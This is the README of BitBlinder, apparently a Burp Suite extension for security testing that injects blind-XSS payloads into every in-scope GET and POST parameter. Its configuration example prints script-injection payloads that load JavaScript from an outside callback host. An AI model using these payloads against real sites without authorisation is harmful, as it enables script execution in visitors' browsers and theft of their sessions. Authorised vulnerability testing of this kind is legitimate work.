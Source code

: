 # BitBlinder

**THIS TOOLS IS IN EARLY BETA USE IT ON YOUR OWN RISK**  
Burp extension helps in finding blind xss vulnerabilities by injecting xss payloads in every request passes throw BurpSuite
```
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
-  Developer: Ahmed Ezzat (BitTheByte)      -
-  Github:    https://github.com/BitTheByte -
-  Version:   0.05b                         -
*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*-*
[WARNING] MAKE SURE TO EDIT THE SETTINGS BEFORE USE
[WARNING] THIS TOOL WILL WORK FOR IN-SCOPE ITEMS ONLY
[WARNING] THIS TOOL WILL CONSUME TOO MUCH BANDWIDTH
```

# Configuration
Go to `Bit blinder` tab then enable it  
Set your payloads (line separated)  
```
"><script%20src="https://myusername.xss.ht"><script>
"><script%20src="https://myusername.xss.ht"><script>
...
```
If you added more than 1 payload enable the randomization button  
If you want to keep it disabled keep in mind that the tool will use the first payload only


# How to use
1. Load the extension to your burpsuite
2. Click on `Bit blinder` tab then enable it  
3. Add your target to scope **It'll only work for inscope items**
4. Continue your hunting session **Make sure to do alot of actions [Forms,Search,...]**
5. Monitor the output in extension's output tab

**Note:** By the nature of this tool it'll make alot of requests so you may get blocked by WAF or experience slow internet connection


# In a nutshell

When user visits [https://example.com?vuln=123&vuln2=abc](https://example.com?vuln=123&vuln2=abc)  
This tool will generate the following 2 requests (in the background without effecting the current session)  
1. [https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc](https://example.com?vuln=[YOUR_XSS_PAYLOAD]&vuln2=abc)
2. [https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD]](https://example.com?vuln=123&vuln2=[YOUR_XSS_PAYLOAD])

The previous example also applies to `POST` parameters


# Current version
```
Version 0.05b
```


# TO-DO (By priority)
- GUI ✓ ( A very ugly one for now.. )
- Fix endless request loops ✓
- Injection in headers
- Option to exclude paramters/hosts/endpoints
- Better output/logging system
